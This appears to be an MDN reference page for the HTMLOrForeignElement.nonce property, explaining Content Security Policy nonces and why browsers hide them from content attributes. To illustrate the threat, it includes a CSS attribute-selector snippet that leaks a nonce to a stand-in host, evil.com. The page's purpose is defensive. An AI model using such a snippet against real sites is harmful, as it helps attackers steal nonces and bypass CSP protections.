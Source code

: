 # HTMLOrForeignElement.nonce

The `nonce` property of the [`HTMLOrForeignElement`](../htmlorforeignelement) mixin returns the cryptographic number used once that is used by [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) to determine whether a given fetch will be allowed to proceed.

In later implementations, elements only expose their `nonce` attribute to scripts (and not to side-channels like CSS attribute selectors).

## Examples

### Retrieving a nonce value

In the past, not all browsers supported the `nonce` IDL attribute, so a workaround is to try to use `getAttribute` as a fallback:

    let nonce = script['nonce'] || script.getAttribute('nonce');

However, recent browsers version hide `nonce` values that are accessed this way (an empty string will be returned). The IDL property (`script['nonce']`) will be the only way to access nonces.

Nonce hiding helps preventing that attackers exfiltrate nonce data via mechanisms that can grab data from content attributes like this:

    script[nonce~=whatever] {
      background: url("https://evil.com/nonce?whatever");
    }

## Specifications

<table><thead><tr class="header"><th>Specification</th></tr></thead><tbody><tr class="odd"><td><a href="https://html.spec.whatwg.org/multipage/#attr-nonce">HTML Living Standard<br />
<span class="small">The definition of 'nonce' in that specification.</span></a></td></tr></tbody></table>

## Browser compatibility

Desktop

Mobile

Chrome

Edge

Firefox

Internet Explorer

Opera

Safari

WebView Android

Chrome Android

Firefox for Android

Opera Android

Safari on IOS

Samsung Internet

`nonce`

61

79

75

No

48

10

The property is defined only for its useful elements: `<link>`, `<script>`, and `<style>`; it is undefined for all other elements.

61

61

79

45

10

The property is defined only for its useful elements: `<link>`, `<script>`, and `<style>`; it is undefined for all other elements.

8.0

## See also

- [`nonce` global attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce)
- [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- CSP: [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)

<a href="https://developer.mozilla.org/en-US/docs/Web/API/HTMLOrForeignElement/nonce" class="_attribution-link">https://developer.mozilla.org/en-US/docs/Web/API/HTMLOrForeignElement/nonce</a>
